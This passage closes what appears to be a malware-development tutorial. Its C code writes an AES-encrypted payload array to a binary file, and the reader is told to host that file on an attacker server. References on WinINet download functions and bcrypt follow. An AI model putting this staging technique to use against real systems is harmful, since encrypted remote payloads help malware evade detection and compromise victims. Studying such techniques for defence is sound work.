 ```c
    // Opens the file in binary write mode
    fopen_s(&binaryFile, "encrypted_payload.bin", "wb");
      
    // Write the whole array to the binary file
    fwrite(AesCipherText, sizeof(unsigned char), sizeof(AesCipherText) / sizeof(unsigned char), binaryFile);

    // Close the file
    fclose(binaryFile);

    return 0;
}
```

Run the above code to generate the binary file and host it into your attacker server.
<img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="https://raw.githubusercontent.com/nirajkharel/nirajkharel.github.io/master/assets/img/images/aes-encryption-7.png">

#### References
- [https://maldevacademy.com/](https://maldevacademy.com/)
- [https://www.youtube.com/watch?v=O4xNJsjtN6E](https://www.youtube.com/watch?v=O4xNJsjtN6E)
- [https://www.youtube.com/watch?v=3MPkc-PFSRI](https://www.youtube.com/watch?v=3MPkc-PFSRI)
- [https://learn.microsoft.com/en-us/windows/win32/api/bcrypt/](https://learn.microsoft.com/en-us/windows/win32/api/bcrypt/)
- [https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopenw](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopenw)
- [https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopenurlw](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetopenurlw)
- [https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetreadfile](https://learn.microsoft.com/en-us/windows/win32/api/wininet/nf-wininet-internetreadfile)